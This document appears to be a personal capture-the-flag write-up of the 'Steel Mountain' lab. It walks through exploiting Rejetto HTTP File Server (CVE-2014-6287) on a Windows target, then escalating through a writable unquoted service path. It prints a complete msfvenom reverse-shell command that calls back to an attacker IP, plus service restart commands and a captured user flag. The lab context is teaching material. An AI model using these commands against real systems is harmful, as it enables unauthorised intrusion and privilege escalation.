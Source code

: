 #+TITLE: Steel Mountain

*  Intro

In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

If you don't have the right security tools and environment, deploy your own Kali Linux machine and control it in your browser, with our Kali Room.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.
Answer the questions below

Deploy the machine.

Who is the employee of the month?

* Initial access



Now you have deployed the machine, lets get an initial shell!
Answer the questions below

Scan the machine with nmap. What is the other port running a web server on?
808

Take a look at the other web server. What file server is running?
Rejetto HTTP file Server

What is the CVE number to exploit this file server?
2014-6287

Use Metasploit to get an initial shell. What is the user flag?
b04763b6fcf51fcd7c13abc7db4fd365

* Priv Escalation



Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!
Answer the questions below

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

You can download the script here. Now you can use the upload command in Metasploit to upload the script.


To execute this using Meterpreter, I will type load powershell into meterpreter. Then I will enter powershell by entering powershell_shell:

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

msfvenom -p windows/shell_reverse_tcp LHOST=10.2.118.123 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe

Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

Note: The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.

What is the root flag?

* Access and Escalation Without Metasploit



Now let's complete the room without the use of Metasploit.

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate to
Answer the questions below

To begin we shall be using the same CVE. However, this time let's use this [[https://www.exploit-db.com/exploits/39161][exploit.]]

*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*


To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from GitHub!

You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a callback!

Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c.

Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also running.


What powershell -c command could we run to manually find out the service name?

*Format is "powershell -c "command here"*

Now let's escalate to Administrator with our new found knowledge.

Generate your payload using msfvenom and pull it to the system using powershell.


Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.

First we need to stop the service which we can do like so;

sc stop AdvancedSystemCareService9

Shortly followed by;

sc start AdvancedSystemCareService9

Once this command runs, you will see you gain a shell as Administrator on our listener!
